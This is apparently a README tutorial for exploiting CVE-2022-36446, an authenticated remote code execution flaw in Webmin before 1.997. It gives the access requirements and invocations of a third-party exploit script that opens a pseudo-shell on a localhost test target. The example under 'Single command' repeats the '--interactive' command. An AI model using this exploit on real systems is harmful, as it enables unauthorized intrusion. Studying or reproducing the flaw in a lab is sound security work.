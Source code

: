 # Webmin < 1.997 - CVE-2022-36446 Remote Code Execution (RCE) (Authenticated) 

## Requirements

 - Username and password of an account with rights to access to "Software packages Updates"

## Checking requirements

If we want to check the requirements for this exploit, we first need to login to Webmin using the username and password:

![](./imgs/login.png)

Then we need to have access to the "Software Package Updates" page (at: https://TARGET/package-updates/index.cgi?mode=updates&xnavigation=1)

![](./imgs/software_package_updates.png)

If both of these steps are completed successfully, we can now exploit this Webmin.

## Exploitation

Given that we need to authenticate to the Webmin and send a post request with a few parameters, it's easier to use a script for this technique. In the following tutorial we will use @p0dalirius's script: https://github.com/p0dalirius/CVE-2022-36446-Webmin-Software-Package-Updates-RCE

### Single command

We can launch a single command on the remote machine with option `--command`:

```
./CVE-2022-36446.py -t https://localhost:10080/ -u root -p root -k --interactive
```

![](./imgs/exploit_single_command_mode.png)

### Interactive mode

We can also start it in interactive mode with option `--interactive` to get a pseudo-shell:

```
./CVE-2022-36446.py -t https://localhost:10080/ -u root -p root -k --interactive
```

![](./imgs/exploit_interactive_mode.png)

## References
 - https://github.com/p0dalirius/CVE-2022-36446-Webmin-Software-Package-Updates-RCE
 - https://medium.com/@emirpolat/cve-2022-36446-webmin-1-997-7a9225af3165
 - https://nvd.nist.gov/vuln/detail/CVE-2022-36446
 - https://netix.dl.sourceforge.net/project/webadmin/webmin/1.996/webmin-1.996.tar.gz
 - https://github.com/advisories/GHSA-3q8j-9w3h-v6p5
